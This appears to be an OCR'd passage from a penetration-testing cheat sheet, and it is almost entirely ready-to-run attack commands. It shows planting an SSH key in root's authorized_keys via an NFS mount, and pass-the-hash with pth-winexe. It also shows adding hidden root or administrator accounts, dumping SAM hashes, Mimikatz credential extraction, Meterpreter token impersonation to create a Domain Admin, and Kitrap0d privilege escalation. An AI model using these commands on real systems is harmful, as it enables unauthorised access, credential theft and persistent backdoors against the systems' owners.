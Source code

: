 ssh-keygen
mkdir /tmp/r00t
mount -t nfs 192.168.0.10:/secret /mnt/share/
cat ~/.ssh/id_rsa.pub >> /mnt/share/root/.ssh/authorized_keys
umount /mnt/share
ssh root@192.168.0.10

-------------------------------------------------------------------------- Post Exploitation

[+] Command prompt access on Windows Host

pth-winexe -U Administrator%<hash> //<host ip> cmd.exe

[+] Add Linux User
/usr/sbin/useradd –g 0 –u 0 –o user
echo user:password | /usr/sbin/chpasswd

[+] Add Windows User
net user username password@1 /add
net localgroup administrators username /add

[+] Solaris Commands
useradd -o user
passwd user
usermod -R root user

[+] Dump remote SAM:
PwDump.exe -u localadmin 192.168.0.1

[+] Mimikatz
mimikatz # privilege::debug
mimikatz # sekurlsa::logonPasswords full

[+] Meterpreter
meterpreter> run winenum
meterpreter> use post/windows/gather/smart_hashdump

meterpreter > use incognito
meterpreter > list_tokens -u
meterpreter > impersonate_token TVM\domainadmin
meterpreter > add_user hacker password1 -h 192.168.0.10
meterpreter > add_group_user "Domain Admins" hacker -h 192.168.0.10

meterpreter > load mimikatz
meterpreter > wdigest
meterpreter > getWdigestPasswords
Migrate if does not work!

[+] Kitrap0d
Download vdmallowed.exe and vdmexploit.dll to victim
Run vdmallowed.exe to execute system shell

[+] Windows Information
On Windows:
ipconfig /all
systeminfo
net localgroup administrators
net view
net view /domain
